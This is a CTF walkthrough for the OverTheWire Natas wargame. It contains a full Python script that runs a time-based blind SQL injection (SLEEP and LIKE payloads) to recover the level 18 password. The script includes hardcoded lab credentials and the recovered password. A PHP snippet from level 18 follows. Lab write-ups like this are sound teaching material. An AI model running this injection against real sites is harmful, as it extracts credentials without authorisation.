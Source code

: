 ```
import requests
from string import *
from time import *

username = "natas17"
password = "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw"

session = requests.Session()

url = "http://{}.natas.labs.overthewire.org/".format(username)

characters = ascii_lowercase + ascii_uppercase + digits
# characters = abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789

password_tried = ""  # empty string
# password_tried = list()

while len(password_tried) != 32:
    for ch in characters:
        print("trying this password now --> {}{}".format(password_tried, ch))
        start_time = time()  # start timer
        response = session.post(url, data={
            "username": "natas18\" AND BINARY password LIKE \"{}{}%\" AND SLEEP(2)#".format(password_tried, ch)}, auth=(username, password))  # SLEEP forces the SQL result to delay the output
        # response = session.post(
        #    url, data={"username": "natas18\" AND BINARY password LIKE \"{}{}%\" AND SLEEP(2)#".format("".join(password_tried), ch)}, auth=(username, password))
        content = response.text
        end_time = time()  # end timer
        # calculate difference between start time and end time
        difference = end_time - start_time

        if difference > 1:
            password_tried += ch  # add character to string
            # password_tried.append(ch)
            break

print(password_tried) # xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
```

# Level 18

In this webpage, it seems like we need to enter some kind of username and password.

Upon clicking on the view source code, there is a php code within:

```
<?

$maxid = 640; // 640 should be enough for everyone

function isValidAdminLogin() { /* {{{ */
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }

    return 0;
}
/* }}} */
function isValidID($id) { /* {{{ */
    return is_numeric($id);
}
```